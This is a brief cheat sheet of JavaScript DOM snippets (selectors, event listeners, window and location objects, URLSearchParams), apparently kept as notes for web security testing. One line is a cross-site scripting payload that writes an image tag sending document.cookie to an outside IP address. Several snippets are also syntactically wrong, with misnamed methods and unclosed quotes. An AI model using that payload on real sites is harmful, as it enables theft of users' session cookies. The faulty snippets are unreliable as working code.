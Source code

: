 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
```
element.addEventListener("click", function);

element.addEventListener("mouseover", function);
```

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```

## URLSearchParams
```
http://www.somehost.com?name=video#default=1
```

```
let querystring = window.location.search; // ?name=video
let urlParam = new URLSearchParams(querystring);
console.log(urlParam);
let value = urlParam.get('name');
console.log(value);
```

```
(new URLSearchParams(window.location.search)).get('name'); // video
```

```
document.location.hash // #default=1
<or>
location.hash // #default=1
```

```
document.location.href // http://www.somehost.com?name=video#default=1
```
